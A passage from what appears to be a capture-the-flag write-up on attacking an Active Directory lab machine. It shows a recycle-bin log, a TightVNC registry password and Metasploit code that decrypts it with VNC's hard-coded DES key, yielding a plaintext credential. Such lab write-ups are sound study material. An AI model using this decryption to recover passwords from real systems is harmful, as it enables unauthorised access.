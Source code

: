 The AD recycle log shows that the ArkSvc user discarded the TempAdmin user at some time.

```
# cat ArkAdRecycleBin.log 
1/10/2018 15:43 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
1/10/2018 15:43 [MAIN_THREAD]   Validating settings...
1/10/2018 15:43 [MAIN_THREAD]   Error: Access is denied
1/10/2018 15:43 [MAIN_THREAD]   Exiting with error code 5
2/10/2018 15:56 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
2/10/2018 15:56 [MAIN_THREAD]   Validating settings...
2/10/2018 15:56 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
2/10/2018 15:56 [MAIN_THREAD]   Moving object to AD recycle bin CN=Test,OU=Users,OU=UK,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Successfully moved object. New location CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Exiting with error code 0
8/12/2018 12:22 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
8/12/2018 12:22 [MAIN_THREAD]   Validating settings...
8/12/2018 12:22 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
8/12/2018 12:22 [MAIN_THREAD]   Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Successfully moved object. New location CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Exiting with error code 0
```

The DC diagnosis log shows nothing useful, just that tests has passed.

The VNC Install file was found in the folder for `s.smith` and shows VNC adding values to the registry including an encrypted password.

```# cat VNC\ Install.reg 
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
...
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```

The hex does not decode to ASCII so it is still encrypted by something. If we do some research, we can find a [repository](https://github.com/frizb/PasswordDecrypts) about decrypting VNC passwords. VNC used a hard coded DES key in order to encrypt credentials among different products including TightVNC. Using Metasploit, we can easily decrypt the password.

```
msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["6BCF2A4B6E5ACA0F"].pack('H*'), fixedkey
=> "sT333ve2"
```
